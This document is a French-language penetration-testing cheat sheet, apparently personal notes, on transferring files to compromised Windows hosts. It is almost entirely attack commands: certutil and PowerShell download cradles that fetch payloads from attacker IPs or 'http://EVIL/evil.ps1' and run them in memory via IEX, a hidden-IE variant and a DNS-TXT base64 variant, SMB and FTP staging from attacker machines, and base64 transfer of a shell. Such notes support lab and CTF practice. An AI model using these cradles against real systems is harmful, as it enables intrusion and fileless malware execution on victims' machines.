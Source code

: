 ```yaml
---
public: true # set to true to make the article publishable
---
```

## HTTP

### LOLBAS

```shell title="Téléchargement d'un fichier à l'aide de certutil"
certutil.exe -urlcache -split -f "http://10.10.14.149:1234/RunasCS.exe" RunasCS.exe

```
```

### Powershell

```powershell title=enregistrement du fichier
powershell.exe (Invoke-WebRequest 'http://192.168.1.2/exploit.exe' -OutFile 'exploit.exe')

powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')

```

```powershell title=exécution directe d'un script powershell en mémoire (fileless)
# si besoin d'accepter des certificats autosignés :
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.2/exploit.ps1')

iwr 'http://192.168.1.2/exploit.ps1' -UseBasicParsing | IEX
```


### Variantes

```powershell
## from https://gist.github.com/HarmJ0y/bb48307ffa663256e239
# normal download cradle
IEX (New-Object Net.Webclient).downloadstring("http://EVIL/evil.ps1")

# PowerShell 3.0+
IEX (iwr 'http://EVIL/evil.ps1')

# hidden IE com object
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r

# Msxml2.XMLHTTP COM object
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# WinHttp COM object (not proxy aware!)
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText

# using bitstransfer- touches disk!
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r

# DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
#   code to execute needs to be a base64 encoded string stored in a TXT record
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))

# from @subtee - https://gist.github.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

## SMB

```
attacker> sudo smbserver.py myshare ./ -smb2support
attacker> sudo smbserver.py myshare ./ -smb2support -user rebrec -password blah
victim> net use x: \\<ATACKER_IP>\myshare /user rebrec blah
# 
$username = 'rebrec'
$password = 'rebrec'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "S" -Root "\\192.168.10.10\Common" -PSProvider "FileSystem" -Credential $cred
```

## FTP

```
# installation
pip3 install pyftpdlib

# lancement du serveur dans le dossier courant
sudo python3 -m pyftpdlib --port 21

# téléchargement depuis la victime
PS> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'ftp-file.txt')
```

## Transfert de tous les fichiers d'un dossier

```
# on lance un listener HTTP sur la machine où se trouve le dossier à copier
python -m http.server 8001

# on récupère tous les fichiers 
wget -r http://$TARGET_IP:8001
wget -m --no-passive ftp://anonymous:anonymous@10.129.14.136
```

## Base 64

```
# si on veut transférer le fichier shell
base64 shell -w 0
# on copie le résultat dans le presse papier
# puis on le colle dans la machine distante
$ echo xxxxxxxxxxxxxxxxxxx | base64 -d > shell
```

#### Windows

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
